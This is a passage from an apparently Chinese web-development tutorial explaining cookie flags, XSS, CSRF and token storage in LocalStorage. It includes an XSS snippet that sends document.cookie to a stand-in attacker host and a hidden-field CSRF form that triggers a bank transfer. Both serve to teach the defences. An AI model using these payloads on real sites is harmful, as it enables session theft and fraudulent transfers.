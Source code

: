 - Secure：只允许 Cookie 在 HTTPS 请求中被使用

- HttpOnly：禁止使用 JS 访问 cookie（ducoment.cookie 访问被禁止了）

Cookie 只允许储存 4kb 的数据。

比如你在水一个论坛，这个论坛有个 bug：不会对发布内容中的 HTML 标签进行过滤

某一天，一个恶意用户发了个帖子，内容如下：

```html
<script>window.open("atacker.com?cookie=" + document.cookie</script> 
```

当你访问这条帖子的内容时，浏览器就会执行 `<script>` 中的代码，导致你的 Cookie 被发送给攻击者，接着攻击者就可以利用你的 Cookie 登录论坛，然后为所欲为了

XSS 攻击在很多情况下，用户甚至不会知道自己被攻击了，比如利用 `<img/>` 的 `src` 属性，就可以做到悄无声息的把用户的信息发给攻击者。

而当设置了 `HttpOnly` 后，`ducoment.cookie` 将获取不到 Cookie，攻击者的代码自然就无法生效了。

## CSRF攻击

假设你在浏览器中登录过某个银行 `bank.com`，这个银行系统使用 Cookie 来保存你的登录态

接着你访问了一个恶意网站，该网站中有一个表单：

```html
<form action="bank.com/transfer" method="post">
    <input type="hidden" name="amount" value="100000.00"/>
    <input type="hidden" name="target" value="attacker"/>
    <input type="submit" value="屠龙宝刀，点击就送!"/>
</form>

```

假设 `bank.com/transfer` 是用来转账的接口。

当你被诱导点下了提交按钮后：

1. 由于 form 表单提交是可以跨域的，你将会对 `bank.com/transfer` 发起一次 POST 请求
2. 由于此前你已经登录过 `bank.com`，浏览器会自动将你的 Cookie 一并发送过去（即使你当前并未处于银行系统的页面）
3. `bank.com` 收到你的带 Cookie 的请求后，认为你是正常登录了的，导致转账成功进行
4. 最终你损失了一大笔钱


即使用 Cookie 配合 HTTPS 请求，CSRF 攻击也无法被避免，因为 HTTPS 请求只是对传输的数据进行了加密，而 CSRF 攻击的特点是，诱导你去访问某个需要你的权限的接口，HTTPS 并不能阻止这种访问。

CSRF 攻击的核心，就是利用了**浏览器会自动在所有请求里带上 Cookie** 的特性。

#### LocalStorage

SessionStorage 和 LocalStorage 使用方法基本一致，唯一不同的是，一旦关闭页面，SessionStorage 将会删除数据。

因此，LocalStorage 比较常见的一个替代 Cookie 的场景就是登录态的保持，比如用 token 的方法加上 HTTPS 请求，就可以很大程度上提高登录的安全性，避免被 CSRF 攻击（但是依然无法完全避免被 XSS 攻击的风险）。

大概工作流程就是，用户登录后，从服务器拿到一个 token，然后存进 LocalStorage 里，之后每次请求前都从 LocalStorage 里取出 token，放到请求数据里，服务器就能知道是同一个用户在发起请求了；由于 HTTPS 的存在，也不用担心 token 会被泄露给第三方，因此是很安全的。
